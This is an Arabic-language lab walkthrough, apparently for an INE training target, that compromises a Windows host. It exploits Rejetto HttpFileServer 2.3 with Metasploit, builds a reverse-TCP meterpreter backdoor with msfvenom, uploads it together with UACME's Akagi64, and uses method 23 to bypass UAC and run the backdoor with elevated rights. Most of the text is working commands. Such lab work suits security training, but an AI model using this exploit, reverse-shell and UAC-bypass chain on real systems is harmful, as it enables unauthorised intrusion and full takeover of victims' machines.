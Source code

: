 اولا خلونا نشوف هل فيه اتصال بيننا وبين التارقت او لا  
```bash
ping demo.ine.local  
```  
نشوف انه عندنا اتصال خلونا نفحص التارقت  
```bash
nmap -sV -sC demo.ine.local  
```  
نشوف انه حصلنا بورت 80 شغال عليه HTTPFileServer 2.3 ونعرف انه مصاب راح نستغله فورا بالميتاسبلويت  
```bash
msfconsole -q  
use exploit/windows/http/rejetto_hfs_exec  
show options  
set RHOSTS demo.ine.local  
exploit  
sysinfo  
getuid  
```  
نشوف انه اليوزر الي معنا admin الان لابد نسوي Privilege Escalation  
خلونا اول شي نروح لبروسس مستقر عشان مايقطع علينا الاتصال  
```bash
ps -S explorer.exe  
migrate 2716  
```  
حلو الان خلونا نحاول نرفع صلاحياتنا عن طريق الميتاسبلويت  
```bash
getsystem  
```  
طيب نشوف انه رفض خلونا الان نفتح الشيل ونشوف اليوزرات الي بقروب administrators    
```bash
shell  
net localgroup administrators
```  
نشوف انه حصلنا admin & Administrator  
وحنا طبعا يوزرنا admin  
بكذا نعرف انه نقدر نرفع صلاحياتنا عن طريق bypassing UAC  
خلونا اول شي نسوي باك دور  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.15.2 LPORT=4444 -f exe > 'backdoor.exe'  
```  
طبعا الان راح نروح لمسار الـ Temp ونرفع ملفاتنا هناك  
```bash
CTRL + C
cd C:\\Users\\admin\\AppData\\Local\\Temp  
upload /root/Desktop/tools/UACME/Akagi64.exe .  
upload /root/backdoor.exe .  
ls  
```  
نشوف انه الان رفعنا الملفات الي نحتاجها الي هي backdoor , akagi64 في مسار Temp  
خلونا الان نفتح الليسنر قبل نستغل  
```bash
msfconsole -q  
use exploit/multi/handler  
set PAYLOAD windows/meterpreter/reverse_tcp  
set LHOST 10.10.15.2  
set LPORT 4444  
exploit  
```  
حلو الان خلونا نحاول نرفع صلاحياتنا  
```bash
shell  
Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe  
```  
23 هذا يعني انه راح نستخدم الطريقة الي رقمها 23 ف اذا حاب تقرا عن باقي الطرق المتوفره  
(UAC_Bypassing)[https://github.com/hfiref0x/UACME]  
